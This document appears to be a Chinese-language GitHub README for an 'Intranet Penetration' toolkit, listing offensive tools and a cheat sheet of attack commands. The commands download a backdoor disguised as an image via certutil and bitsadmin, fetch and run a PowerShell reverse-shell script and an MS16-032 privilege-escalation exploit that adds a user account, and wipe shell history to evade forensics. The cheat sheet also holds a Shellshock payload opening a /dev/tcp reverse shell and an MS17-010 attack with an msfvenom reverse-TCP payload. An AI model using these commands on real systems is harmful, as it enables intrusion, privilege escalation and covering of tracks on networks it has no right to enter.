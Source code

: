 ﻿
Intranet Penetration

整理一些常用的内外网渗透测试工具

PHPoxy 通过PHP脚本运行一个可以访问内网机器的Web代理。

SocksCap  socks5代理客户端

XX-Net    科学上网利器 

phpsocks5 通过php脚本创建socks5代理服务

socks     包含创建socks5代理服务的python脚本，以及ssocks 内网穿透神器。

Cain      内网嗅探神器

F-NAScan  网络资产信息扫描

X-Sniff   网络嗅探小工具

asocks5  创建socks5代理服务的小公举

bc.pl    反弹bash shell的perl脚本

bypassUAC

http     创建HTTP服务

l.7z     lcx的slave版本，免杀

n.7z     nc.exe

smsniff2   抓包工具

wget     win版wget

get.7z  get64.7z  mimikatz无交互版 直接shell下运行 get.7z    (不是压缩文件)

### 常用命令

[![Join the chat at https://gitter.im/Intranet-Penetration/community](https://badges.gitter.im/Intranet-Penetration/community.svg)](https://gitter.im/Intranet-Penetration/community?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)

1、开web

python2 -m SimpleHTTPServer python3 -m http.server

2、download backdoor

certutil.exe -urlcache -split -f http://xxxx/g.jpg

bitsadmin /rawreturn /transfer getfile http://xxxx/g.jpgc:p.7z


3、tty

python -c 'import pty; pty.spawn("/bin/sh")'


4、powershell

root@kali:/tmp# wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

root@kali:/tmp# wget https://gist.githubusercontent.com/intrd/6dda33f61dca560e6996d01c62203374/raw/babf9a6afd23bb17a89bb3415099459db7bd25cf/ms16_032_intrd_mod.ps1

powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://10.1.x.x:8000/Invoke-PowerShellTcp.ps1','Invoke-PowerShellTcp.ps1')

powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://10.1.x.x:8000/ms16_032_intrd_mod.ps1','ms16_032_intrd_mod.ps1')


IEX (New-Object Net.WebClient).DownloadString('http://10.1.x.x:8000/ms16_032_intrd_mod.ps1');Invoke-MS16-032 "-NoProfile -ExecutionPolicy Bypass -Command net user a xxxx /ad"


5、不记录his

unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; export HISTSIZE=0; export HISTFILESIZE=0

6、破壳漏洞

curl --user-agent '() { ignored;};/bin/bash -i >& /dev/tcp/xxx/3389 0>&1' http://xxx/cgi-bin/admin.cgi

7、ms17010

https://www.exploit-db.com/exploits/42315

msfvenom -p windows/shell/reverse_tcp lhost=xxx lport=3389 -f exe-service > f.exe

smb_send_file(smbConn, '/opt/17010/f.exe', 'C', '/f.exe') service_exec(conn, r'c:\\f.exe')

